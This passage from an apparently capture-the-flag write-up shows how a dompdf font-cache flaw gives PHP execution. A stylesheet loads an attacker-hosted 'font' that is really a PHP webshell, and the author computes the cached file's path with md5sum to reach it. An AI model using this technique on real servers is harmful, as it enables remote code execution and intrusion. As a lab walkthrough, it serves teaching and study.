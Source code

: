 When dompdf gets an HTML page with CSS that loads a font, that font file
will be cached at
`/vendor/dompdf/dompdf/lib/fonts/[family]_[style]_[m5d(url)].php`. If I
can access that file directly, I'll have PHP execution.

#### Exploit

I'll make a couple changes to get this to work. First, I'll update
`exploit.css` to reference my webserver rather than `localhost`. Next,
I'll change the PHP in `exploit_font.php` to be a simple webshell,
rather than `phpinfo()`:

![](/img/image-20230213142947850.png)

I'll start a Python webserver serving these files (I don't want a PHP
webserver, as it will run my PHP in the font). In Burp Repeater, I'll
send a request with HTML that loads `exploit.css` as a stylesheet:

![](/img/image-20230213143244084.png)

There's a hit for the CSS file, and then the font:



    10.10.11.200 - - [13/Feb/2023 19:36:27] "GET /exploit.css HTTP/1.0" 200 -
    10.10.11.200 - - [13/Feb/2023 19:36:27] "GET /exploit_font.php HTTP/1.0" 200 -



To find it, I'll need to calculate the URL of the cached font, each of
which I defined in the CSS file, except the MD5 which I'll calculate:



    oxdf@hacky$ echo -n "http://10.10.14.6/exploit_font.php" | md5sum
    fa98e7a2405d7716b5dd59ed89e2601b  -



So the URL becomes:



    /vendor/dompdf/dompdf/lib/fonts/[family]_[style]_[m5d(url)].php
    /vendor/dompdf/dompdf/lib/fonts/exploitfont_normal_fa98e7a2405d7716b5dd59ed89e2601b.php
